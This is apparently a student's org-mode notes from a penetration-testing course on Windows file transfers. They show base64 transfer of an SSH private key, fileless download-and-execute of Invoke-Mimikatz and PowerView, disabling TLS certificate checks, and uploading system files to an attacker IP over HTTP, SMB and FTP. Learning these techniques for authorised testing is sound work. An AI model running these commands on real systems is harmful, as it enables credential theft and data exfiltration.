

:PROPERTIES:
:ID:       cc48e7c8-c76d-4100-b93b-8f419300bd63
:END:
#+title: windows ft
#+OPTIONS: toc:2

* TOC :toc:
- [[#windows-file-transfers][Windows File Transfers]]
  - [[#microsoft-astaroth-attacks][Microsoft Astaroth Attacks]]
  - [[#powershell-base64-encode--decode][Powershell Base64 Encode & Decode]]
  - [[#web-downloads][Web Downloads]]
  - [[#uploads][Uploads]]

* Windows File Transfers
** Microsoft Astaroth Attacks
1. Malicious link in spear-phishing email led to LNK file.
2. LNK file caused exec of *WMIC tool* with "/Format" param
3. Allowed download and exec of Malicious JS
4. JS downloads payloads abusing *Bitsadmin tool*

+ All payloads -> base64 encoded.
+ One decoded DLL loaded -> decrypted and loaded other files until final payload was injected into *Userinit*.

** Powershell Base64 Encode & Decode
+ *md5sum* -> calc and verifies 128b MD5 checksums
+ md5 -> compact digital fingerprint of file. (File will have same md5 hash everywhere)
*** Check SSH key md5 hash, encode to base64
#+begin_src bash
biscuitrescue@htb[/htb]$ md5sum id_rsa
  
4e301756a07ded0a2dd6953abf015278  id_rsa

biscuitrescue@htb[/htb]$ cat id_rsa |base64 -w 0;echo

LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0KYjNCbGJuTnphQzFyWlhrdGRqRUFBQUFBQkc1dmJtVUFBQUFFYm05dVpRQUFBQUFBQUFBQkFBQUFsd0FBQUFkemMyZ3RjbgpOaEFBQUFBd0VBQVFBQUFJRUF6WjE0dzV1NU9laHR5SUJQSkg3Tm9Yai84YXNHRUcxcHpJbmtiN2hIMldRVGpMQWRYZE9kCno3YjJtd0tiSW56VmtTM1BUR3ZseGhDVkRRUmpBYzloQ3k1Q0duWnlLM3U2TjQ3RFhURFY0YUtkcXl0UTFUQXZZUHQwWm8KVWh2bEo5YUgxclgzVHUxM2FRWUNQTVdMc2JOV2tLWFJzSk11dTJONkJoRHVmQThhc0FBQUlRRGJXa3p3MjFwTThBQUFBSApjM05vTFhKellRQUFBSUVBeloxNHc1dTVPZWh0eUlCUEpIN05vWGovOGFzR0VHMXB6SW5rYjdoSDJXUVRqTEFkWGRPZHo3CmIybXdLYkluelZrUzNQVEd2bHhoQ1ZEUVJqQWM5aEN5NUNHblp5SzN1Nk40N0RYVERWNGFLZHF5dFExVEF2WVB0MFpvVWgKdmxKOWFIMXJYM1R1MTNhUVlDUE1XTHNiTldrS1hSc0pNdXUyTjZCaER1ZkE4YXNBQUFBREFRQUJBQUFBZ0NjQ28zRHBVSwpFdCtmWTZjY21JelZhL2NEL1hwTlRsRFZlaktkWVFib0ZPUFc5SjBxaUVoOEpyQWlxeXVlQTNNd1hTWFN3d3BHMkpvOTNPCllVSnNxQXB4NlBxbFF6K3hKNjZEdzl5RWF1RTA5OXpodEtpK0pvMkttVzJzVENkbm92Y3BiK3Q3S2lPcHlwYndFZ0dJWVkKZW9VT2hENVJyY2s5Q3J2TlFBem9BeEFBQUFRUUNGKzBtTXJraklXL09lc3lJRC9JQzJNRGNuNTI0S2NORUZ0NUk5b0ZJMApDcmdYNmNoSlNiVWJsVXFqVEx4NmIyblNmSlVWS3pUMXRCVk1tWEZ4Vit0K0FBQUFRUURzbGZwMnJzVTdtaVMyQnhXWjBNCjY2OEhxblp1SWc3WjVLUnFrK1hqWkdqbHVJMkxjalRKZEd4Z0VBanhuZEJqa0F0MExlOFphbUt5blV2aGU3ekkzL0FBQUEKUVFEZWZPSVFNZnQ0R1NtaERreWJtbG1IQXRkMUdYVitOQTRGNXQ0UExZYzZOYWRIc0JTWDJWN0liaFA1cS9yVm5tVHJRZApaUkVJTW84NzRMUkJrY0FqUlZBQUFBRkhCc1lXbHVkR1Y0ZEVCamVXSmxjbk53WVdObEFRSURCQVVHCi0tLS0tRU5EIE9QRU5TU0ggUFJJVkFURSBLRVktLS0tLQo=
#+end_src
#+begin_src powershell

PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0KYjNCbGJuTnphQzFyWlhrdGRqRUFBQUFBQkc1dmJtVUFBQUFFYm05dVpRQUFBQUFBQUFBQkFBQUFsd0FBQUFkemMyZ3RjbgpOaEFBQUFBd0VBQVFBQUFJRUF6WjE0dzV1NU9laHR5SUJQSkg3Tm9Yai84YXNHRUcxcHpJbmtiN2hIMldRVGpMQWRYZE9kCno3YjJtd0tiSW56VmtTM1BUR3ZseGhDVkRRUmpBYzloQ3k1Q0duWnlLM3U2TjQ3RFhURFY0YUtkcXl0UTFUQXZZUHQwWm8KVWh2bEo5YUgxclgzVHUxM2FRWUNQTVdMc2JOV2tLWFJzSk11dTJONkJoRHVmQThhc0FBQUlRRGJXa3p3MjFwTThBQUFBSApjM05vTFhKellRQUFBSUVBeloxNHc1dTVPZWh0eUlCUEpIN05vWGovOGFzR0VHMXB6SW5rYjdoSDJXUVRqTEFkWGRPZHo3CmIybXdLYkluelZrUzNQVEd2bHhoQ1ZEUVJqQWM5aEN5NUNHblp5SzN1Nk40N0RYVERWNGFLZHF5dFExVEF2WVB0MFpvVWgKdmxKOWFIMXJYM1R1MTNhUVlDUE1XTHNiTldrS1hSc0pNdXUyTjZCaER1ZkE4YXNBQUFBREFRQUJBQUFBZ0NjQ28zRHBVSwpFdCtmWTZjY21JelZhL2NEL1hwTlRsRFZlaktkWVFib0ZPUFc5SjBxaUVoOEpyQWlxeXVlQTNNd1hTWFN3d3BHMkpvOTNPCllVSnNxQXB4NlBxbFF6K3hKNjZEdzl5RWF1RTA5OXpodEtpK0pvMkttVzJzVENkbm92Y3BiK3Q3S2lPcHlwYndFZ0dJWVkKZW9VT2hENVJyY2s5Q3J2TlFBem9BeEFBQUFRUUNGKzBtTXJraklXL09lc3lJRC9JQzJNRGNuNTI0S2NORUZ0NUk5b0ZJMApDcmdYNmNoSlNiVWJsVXFqVEx4NmIyblNmSlVWS3pUMXRCVk1tWEZ4Vit0K0FBQUFRUURzbGZwMnJzVTdtaVMyQnhXWjBNCjY2OEhxblp1SWc3WjVLUnFrK1hqWkdqbHVJMkxjalRKZEd4Z0VBanhuZEJqa0F0MExlOFphbUt5blV2aGU3ekkzL0FBQUEKUVFEZWZPSVFNZnQ0R1NtaERreWJtbG1IQXRkMUdYVitOQTRGNXQ0UExZYzZOYWRIc0JTWDJWN0liaFA1cS9yVm5tVHJRZApaUkVJTW84NzRMUkJrY0FqUlZBQUFBRkhCc1lXbHVkR1Y0ZEVCamVXSmxjbk53WVdObEFRSURCQVVHCi0tLS0tRU5EIE9QRU5TU0ggUFJJVkFURSBLRVktLS0tLQo="))

#+end_src

*** Confirming MD5 Hashes match
#+begin_src powershell
PS C:\htb> Get-FileHash C:\Users\Public\id_rsa -Algorithm md5

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             4E301756A07DED0A2DD6953ABF015278                                       C:\Users\Public\id_rsa
#+end_src

# Might not always be possible to use (cmd has max strlen = 8191 chars. Web shell may err if attempt to send extremely large strs)

** Web Downloads
+ Most companies allow =HTTP= & =HTTPS= outbound traffic through firewall

+ *System.Net.WebClient* class -> download file over =HTTP=, =HTTPS=, =FTP=

**** Webclient methods to download data: 

|---------------------+--------------------------------------------------|
| Method              | Descr                                            |
|---------------------+--------------------------------------------------|
| OpenRead            | ret data from resource like *Stream*               |
| OpenReadAsync       | ret data from resource _c_ blocking calling thread |
| DownloadData        | download data from resource && ret Byte arr      |
| DownloadDataAsync   | " " _c_ blocking calling thread                    |
| DownloadFile        | down data from resource to local file            |
| DownloadFileAsync   | " " _c_ blocking calling thread                    |
| DownloadString      | down str from resource and ret str               |
| DownloadStringAsync | " " _c_ blocking calling thread                    |
|---------------------+--------------------------------------------------|
**** PS DownloadFile Method
+ *Net.WebClient* class and /DownloadFile/ method specified with params corr to URL of target file to down and output file name. 
+ File download
#+begin_src PS
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
#+end_src
**** DownloadString (Fileless)
+ Run directly in mem -> Uses =Invoke Expression= or =IEX=
#+begin_src PS
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')

PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
#+end_src

**** PS Invoke-WebRequest 
+ PS >= 3.0

**** Common errs with PS
+ IE first launch config not completed. Prevents download.
  -> bypassed using param (-UseBasicParsing)
+ SSL/TLS secure channel -> if cert not trusted.
#+begin_src PS
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
#+end_src>

*** SMB downloads
+ port -> =TCP/445=
**** Create SMB Server
#+begin_src bash
biscuitrescue@htb[/htb]$ sudo impacket-smbserver share -smb2support /tmp/smbshare

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
#+end_src
*** FTP
+ port -> TCP/21 && 20
+ =pyftpdlib=
**** command file for FTP client && download target
#+begin_src PS
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is test file
#+end_src
** Uploads
*** PowerShell Base64 Encode & Decode
#+begin_src PS
PS C:\htb> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

IyBDb3B5cmlnaHQgKGMpIDE5OTMtMjAwOSBNaWNyb3NvZnQgQ29ycC4NCiMNCiMgVGhpcyBpcyBhIHNhbXBsZSBIT1NUUyBmaWxlIHVzZWQgYnkgTWljcm9zb2Z0IFRDUC9JUCBmb3IgV2luZG93cy4NCiMNCiMgVGhpcyBmaWxlIGNvbnRhaW5zIHRoZSBtYXBwaW5ncyBvZiBJUCBhZGRyZXNzZXMgdG8gaG9zdCBuYW1lcy4gRWFjaA0KIyBlbnRyeSBzaG91bGQgYmUga2VwdCBvbiBhbiBpbmRpdmlkdWFsIGxpbmUuIFRoZSBJUCBhZGRyZXNzIHNob3VsZA0KIyBiZSBwbGFjZWQgaW4gdGhlIGZpcnN0IGNvbHVtbiBmb2xsb3dlZCBieSB0aGUgY29ycmVzcG9uZGluZyBob3N0IG5hbWUuDQojIFRoZSBJUCBhZGRyZXNzIGFuZCB0aGUgaG9zdCBuYW1lIHNob3VsZCBiZSBzZXBhcmF0ZWQgYnkgYXQgbGVhc3Qgb25lDQojIHNwYWNlLg0KIw0KIyBBZGRpdGlvbmFsbHksIGNvbW1lbnRzIChzdWNoIGFzIHRoZXNlKSBtYXkgYmUgaW5zZXJ0ZWQgb24gaW5kaXZpZHVhbA0KIyBsaW5lcyBvciBmb2xsb3dpbmcgdGhlIG1hY2hpbmUgbmFtZSBkZW5vdGVkIGJ5IGEgJyMnIHN5bWJvbC4NCiMNCiMgRm9yIGV4YW1wbGU6DQojDQojICAgICAgMTAyLjU0Ljk0Ljk3ICAgICByaGluby5hY21lLmNvbSAgICAgICAgICAjIHNvdXJjZSBzZXJ2ZXINCiMgICAgICAgMzguMjUuNjMuMTAgICAgIHguYWNtZS5jb20gICAgICAgICAgICAgICMgeCBjbGllbnQgaG9zdA0KDQojIGxvY2FsaG9zdCBuYW1lIHJlc29sdXRpb24gaXMgaGFuZGxlZCB3aXRoaW4gRE5TIGl0c2VsZi4NCiMJMTI3LjAuMC4xICAgICAgIGxvY2FsaG9zdA0KIwk6OjEgICAgICAgICAgICAgbG9jYWxob3N0DQo=
PS C:\htb> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash

Hash
----
3688374325B992DEF12793500307566D

#+end_src
*** PS Web Ups
+ =Invoke-WebRequest= || =Invoke-RestMethod=
#+begin_src PS
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

[+] File Uploaded:  C:\Windows\System32\drivers\etc\hosts
[+] FileHash:  5E7241D66FD77E9E8EA866B6278B2373
#+end_src
*** SMB ups
+ run SMB over HTTP c =WebDAV= [[https://github.com/mar10/wsgidav][wsgidav]] (allows webserver -> fileserver)
+ SMB ->
  1. SMB
  2. HTTP
*** FTP Ups
#+begin_src bash
sudo python3 -m pyftpdlib --port 21 --write
#+end_src

